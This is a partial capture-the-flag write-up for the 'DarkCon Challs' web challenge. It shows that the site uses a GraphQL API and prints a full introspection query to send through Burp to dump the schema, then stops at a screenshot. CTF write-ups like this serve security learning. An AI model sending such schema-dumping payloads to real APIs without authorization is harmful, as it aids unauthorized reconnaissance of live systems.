 <h1>DarkCon Challs</h1>
<h4>Description: 
<p>A place where you can see all the challs of darkCON CTF using api but not the flag or can you @_@ ?
PS :- Try to get the flag of this chall xD</p>
<h4>Category: Web</h4>
<h4>Link:http://darkcon-challs.darkarmy.xyz</h4>

There is a login page. If you look at <b>js/auth.js</b> you can see that there is an graphql api bein used.
Now we can capture the request in burp (forward the request to repeater) and try to dump all the schema avilable to us using this payload.
<h4>{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}</h4>
<br></br><img src='./images/Screenshot(105).png' /><br></br>
